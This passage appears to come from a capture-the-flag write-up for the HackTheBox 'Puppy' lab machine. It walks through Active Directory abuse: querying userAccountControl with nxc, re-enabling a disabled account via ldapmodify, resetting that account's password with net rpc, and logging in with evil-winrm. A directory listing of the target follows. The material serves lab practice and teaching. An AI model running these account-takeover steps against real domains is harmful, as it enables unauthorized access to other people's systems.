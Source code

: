 I'll make an ldif file to modify the user, but first we'd need to know the userAccountControl numbers.
```bash
bits=$(nxc ldap $IP -u $AUTH_USER -p $AUTH_PASSWORD --query "(&(objectCategory=person)(objectClass=user)(sAMAccountName=adam.silver))" "userAccountControl" | grep -oP 'userAccountControl +\K\d+')
disabled_flag=2
new_bits=$(( $bits & ~disabled_flag ))
echo $new_bits
# Should be 66048
```


```bash
cat << EOF > adam.silver.ldif
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF

# modifiy adam
ldapmodify -x -H ldap://dc.puppy.htb -D 'CN=ANTHONY J. EDWARDS,DC=PUPPY,DC=HTB' -w '<PASS>' -f 'adam.silver.ldif'

# set Adam Silvers PW
net rpc password 'adam.silver' '<NEW_PASS>' -U 'puppy.htb\ant.edwards%$<PASS>!' -S dc.puppy.htb
```

Then...

```bash
evil-winrm -i $IP -u adam.silver -p <NEW_PASS>
```

## {{ page.table_of_contents[2] }} <a name="{{ page.table_of_contents[0] | downcase | replace: ' ', '-' }}"></a>

We're here on the system now. Bloodhound shows we don't have any active-directory catapults from this user, so we should enumerate the system.

I initially just went to the C: drive to look for anything unique and...

```powershell
*Evil-WinRM* PS C:\> gci


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          6/3/2025   2:43 AM                Users
d-----         5/13/2025   4:40 PM                Windows
```
